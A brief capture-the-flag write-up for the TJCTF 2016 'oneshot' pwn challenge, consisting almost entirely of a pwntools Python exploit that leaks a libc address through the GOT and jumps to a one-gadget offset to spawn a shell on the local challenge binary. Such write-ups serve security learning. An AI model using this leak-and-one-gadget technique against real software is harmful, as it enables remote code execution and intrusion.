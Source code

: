 ```yaml
---
layout: post
alias: "/blog/2016/09/16/tjctf-2016-oneshot/"
date: "2016-09-16T17:13:16+09:00"
tags: [ "ctf", "writeup", "pwn", "tjctf", "one-gadget-rce" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/tjctf-2016/pwn/oneshot-170" ]
---
```


# tjctf 2016 oneshot

Do one-gadget RCE.
In Ubuntu 16.04 libc, `0xf0897` is the address.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./oneshot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # Ubuntu 16.04
p = process('./oneshot')
p.sendline(str(elf.got['__libc_start_main']))
p.recvuntil('Value: ')
libc_base = int(p.recvline(), 16) - libc.symbols['__libc_start_main']
p.sendline(str(libc_base + 0xf0897))

time.sleep(1)
p.sendline('id')
p.interactive()
```

